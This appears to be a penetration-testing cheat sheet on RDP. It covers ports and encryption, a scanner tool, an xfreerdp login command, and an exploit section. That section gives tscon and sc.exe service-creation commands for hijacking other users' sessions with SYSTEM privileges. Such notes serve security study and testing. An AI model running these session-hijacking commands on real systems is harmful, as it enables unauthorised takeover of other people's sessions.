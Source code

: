 ### Generalities

- **Type:** Authentication (remote)
- It opens a live session
- Structure:
  - typically utilizing TCP port 3389 as the transport protocol,  the connectionless UDP protocol can use port 3389 also for remote  administration.
  - For an RDP session to be established, both the network firewall and the  firewall on the server must allow connections from the outside.
  - all data, and especially the login process, is protected in the network  by its good encryption. However, many Windows systems do not insist on  this but still accept inadequate encryption.

### Interaction

- [rdp-sec-check.pl](https://github.com/CiscoCXSecurity/rdp-sec-check) can unauthentically identify the security settings of RDP servers based on the handshakes.

  ```bash
  ./rdp-sec-check.pl [IP]
  ```

- Authentication and connection to such RDP servers can be made, for example, using `xfreerdp`, `rdesktop`, or `Remmina` 

  ```bash
  xfreerdp /u:[USER] /p:"[PASSWD]" /v:[IP]
  ```

### Exploit

- The identity-providing certificates are merely self-signed by default, so the client cannot distinguish a genuine certificate from a forged one and generates a certificate warning for the user.

- **Session Hijacking** (*no longer works on Server 2019*)

  Go from one user to another

  - Get active users with `query user` 

  - If you have SYSTEM privileges (or if you are admin and you can run the terminal as Administrator by right click):

    ```cmd
    tscon [TARGET_SESSION_ID] /dest:[OUR_SESSION_NAME]
    ```

  - If have Administrator privileges:

    1. Create a service that, by default, will run as `Local System` and will execute any binary with `SYSTEM` privileges.

       ```cmd
        sc.exe create service binpath= "cmd.exe /k tscon [TARGET_SESSION_ID] /dest:[OUR_SESSION_NAME]"
       ```

    2. Start the service

       ```cmd
       net start service
       ```
